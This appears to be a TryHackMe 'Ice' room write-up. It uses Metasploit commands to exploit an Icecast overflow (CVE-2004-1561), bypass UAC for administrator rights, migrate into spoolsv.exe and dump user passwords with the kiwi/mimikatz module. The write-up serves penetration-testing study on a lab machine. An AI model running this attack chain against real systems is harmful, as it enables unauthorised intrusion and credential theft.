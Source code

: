 # ICE TryHackMe Machine
## 1. Recon
```
nmap -sV <machine ip>
```
![img of port scan](port_scan.png)
we search for vulnerablilites on CVE for the icecast service on port 8000<br>
found vulnerability execute code overflow CVE-2004-1561 <br>
## 2. Exploiting
```
msfconsole
search icecast
use 0
set LHOST <your ip>
set RHOST <victim ip>
run
```
We succesfully pwned the machine and opened a meterpreter connection <br>
![img of pwned machine](pwn.png)
## 3. privilege escalation

```
run post/multi/recon/local_exploit_suggester
```
this script suggested plenty exploits that can be used against this machine <br>
![img of possible exploits](exploits.png)

we used the exploit exploit/windows/local/bypassuac_eventvwr
```
bg
use exploit/windows/local/bypassuac_eventvwr
set LHOST <your ip>
run
```
this spawns a meterpreter session that has administrator privileges <br>
![img of escalated machine](escalate.png)
```
ps
migrate -N spoolsv.exe
```
this migrates our process to a process which has more privileges. <br>
now we load the mimikatz or kiwi module to steal the passwords of the users
```
load kiwi
creds_all
```
this reveals the password of the user "Dark" which is Password01! <br>
![img of stolen credentials](creds.png)

with this we clear the ice room.<br>
<img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/><img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/><img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/><img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/><img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/><img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/><img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/>
